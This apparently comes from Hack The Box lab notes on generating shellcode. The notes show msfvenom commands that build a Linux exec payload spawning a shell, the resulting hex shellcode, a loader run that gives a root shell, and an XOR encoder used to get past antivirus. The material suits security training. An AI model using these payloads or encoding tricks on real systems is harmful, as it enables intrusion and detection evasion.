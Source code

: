 - The `exec` payload allows us to execute a command we specify. Let's pass '`/bin/sh/`' for the `CMD`, and test the shellcode we get:

```shell-session
secmancer@htb[/htb]$ msfvenom -p 'linux/x64/exec' CMD='sh' -a 'x64' --platform 'linux' -f 'hex'

No encoder specified, outputting raw payload
Payload size: 48 bytes
Final size of hex file: 96 bytes
6a3b589948bb2f62696e2f736800534889e7682d6300004889e652e80300000073680056574889e60f05
```

- Note that this shellcode is also not as optimized and short as our shellcode. Let's try running this shellcode with our `loader.py` script:

```shell-session
secmancer@htb[/htb]$ python3 loader.py '6a3b589948bb2f62696e2f736800534889e7682d6300004889e652e80300000073680056574889e60f05'

$ whoami

root
```

- This shellcode works as well. Try testing other types of syscalls and payloads in `shellcraft` and `msfvenom`



## Shellcode Encoding
- Another great benefit of using these tools is to encode our shellcodes without manually writing our encoders. Encoding shellcodes can become a handy feature for systems with anti-virus or certain security protections. However, it must be noted that shellcodes encoded with common encoders may be easy to detect.
- We can use `msfvenom` to encode our shellcodes as well. We can first list available encoders:

```shell-session
secmancer@htb[/htb]$ msfvenom -l encoders

Framework Encoders [--encoder <value>]
======================================
    Name                          Rank       Description
    ----                          ----       -----------
    cmd/brace                     low        Bash Brace Expansion Command Encoder
    cmd/echo                      good       Echo Command Encoder

<SNIP>
```

- Then we can pick one for `x64`, like `x64/xor`, and use it with the `-e` flag, as follows:

```shell-session
secmancer@htb[/htb]$ msfvenom -p 'linux/x64/exec' CMD='sh' -a 'x64' --platform 'linux' -f 'hex' -e 'x64/xor'

Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 87 (iteration=0)
x64/xor chosen with final size 87
Payload size: 87 bytes
Final size of hex file: 174 bytes
4831c94881e9faffffff488d05efffffff48bbf377c2ea294e325c48315827482df8ffffffe2f4994c9a7361f51d3e9a19ed99414e61147a90aac74a4e32147a9190022a4e325c801fc2bc7e06bbbafc72c2ea294e325c
```
